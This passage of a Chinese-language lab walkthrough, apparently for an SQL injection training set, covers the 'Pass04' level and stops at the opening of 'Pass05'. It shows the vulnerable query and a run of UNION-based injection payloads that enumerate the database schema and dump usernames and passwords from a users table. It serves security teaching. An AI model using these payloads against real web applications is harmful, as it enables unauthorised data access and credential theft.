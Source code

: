 `?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns  where table_name ='users'--+`查字段名

`?id=-1') union select 1,2,(select group_concat(username,0x7e,password) from users)--+`查字段内容

# Pass04

![image-20221223223138687](assets/image-20221223223138687.png)

基于错误的GET双引号字符型注入

```
$id = '"' . $id . '"';
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
```

输入`?id=1"`报错

![image-20221223223658163](assets/image-20221223223658163.png)

所以输入的数据是被放在一对圆括号和双引号当中

`?id=1") order by 4--+`报错

`?id=1") order by 3--+`不报错,3列



`?id=-1") union select 1,2,3 `--+回显点2,3



`?id=-1") union select 1,2,group_concat(schema_name) from information_schema.schemata --+`



`?id=-1")union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+`



`?id=-1")union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+`



`?id=-1") union select 1,2,(select group_concat(username,0x7e,password) from users)--+`

# Pass05

```bash
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```
